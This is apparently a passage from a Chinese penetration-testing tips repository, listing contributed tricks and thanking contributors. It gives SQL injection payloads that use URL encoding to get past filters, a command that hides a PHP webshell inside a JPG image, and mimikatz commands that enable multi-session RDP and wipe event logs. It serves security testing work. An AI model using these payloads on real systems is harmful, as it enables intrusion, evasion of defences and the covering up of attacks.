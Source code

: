 ------------
### 2021年01月29日 - 更新分界线，整理了来自Tools师傅们留言的渗透测试Tips：

1、注入时使用url编码对&&和||编码可以绕过一些拦截。例如：Author By：jettt

```
1' and 1=1--+
1' %26%26 True--+
同理其他编码也可以试一个遍。
```

2、信息收集的时候可以使用fofa查看证书看是否是真实IP 语法 cert="baidu.com"。Author By：zhaoze

3、将普通图片1.jpg 和 木马文件shell.php ,合并成木马图片2.jpg：Author By：Lstarx

 ```
$ copy /b 1,jpg+shell.php 2.jpg
 ```

4、mimikatz小功能：Author By：Rive丶

 ```
多用户登录3389：ts::multirdp
 清除日志：event::drop
 粘贴板信息：misc::clip
 ```

---------------------------------------

# 贡献个人（排名不分先）

**感谢以下师傅们对本仓库，以及安全这个小圈子做的一些小贡献，开源精神永不眠！**

六六，Jokong，phage，登登登Y，zhaoze，oops33，ptgeft，Alex125，Scorpion，iwtbhero，ffffffff0x，Lstarx，jettt，Rive丶

# 贡献团队（根据贡献个数进行排名）

洞一CyberSecurity



